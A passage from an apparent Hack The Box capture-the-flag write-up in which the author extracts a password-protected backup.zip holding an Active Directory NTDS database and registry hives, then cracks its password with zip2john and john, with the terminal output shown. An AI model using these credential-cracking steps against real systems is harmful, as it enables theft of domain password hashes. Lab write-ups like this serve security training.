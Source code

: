 Inside the `backup` share I found a file `backup.zip` that I was able to exfiltrate back to my computer.

```
┌──(zweilos㉿kali)-[~/htb/apt]
└─$ unzip backup.zip             
Archive:  backup.zip
   creating: Active Directory/
[backup.zip] Active Directory/ntds.dit password: 
   skipping: Active Directory/ntds.dit  incorrect password
   skipping: Active Directory/ntds.jfm  incorrect password
   creating: registry/
   skipping: registry/SECURITY       incorrect password
   skipping: registry/SYSTEM         incorrect password
```

The zip file was password-protected, but not encrypted.  I was able to see that contents, which were a backup of the Active Directory NTDS database.  This was a very juicy find, indeed!  If I could extract these files, I could potentially get the password hashes of all of the domain users on this machine.

```
┌──(zweilos㉿kali)-[~/htb/apt]
└─$ zip2john backup.zip > backup.hash
backup.zip/Active Directory/ is not encrypted!
ver 2.0 backup.zip/Active Directory/ is not encrypted, or stored with non-handled compression type
ver 2.0 backup.zip/Active Directory/ntds.dit PKZIP Encr: cmplen=8483543, decmplen=50331648, crc=ACD0B2FB
ver 2.0 backup.zip/Active Directory/ntds.jfm PKZIP Encr: cmplen=342, decmplen=16384, crc=2A393785
ver 2.0 backup.zip/registry/ is not encrypted, or stored with non-handled compression type
ver 2.0 backup.zip/registry/SECURITY PKZIP Encr: cmplen=8522, decmplen=262144, crc=9BEBC2C3
ver 2.0 backup.zip/registry/SYSTEM PKZIP Encr: cmplen=2157644, decmplen=12582912, crc=65D9BFCD
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.
```

Next, I used `zip2john` to extract the password hash from the file.

```
┌──(zweilos㉿kali)-[~/htb/apt]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt backup.hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
iloveyousomuch   (backup.zip)
1g 0:00:00:00 DONE (2021-03-29 21:06) 100.0g/s 819200p/s 819200c/s 819200C/s 123456..whitetiger
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Then, I loaded the hash into `john`.  It cracked in less than a second and revealed that the password was `iloveyousomuch`.
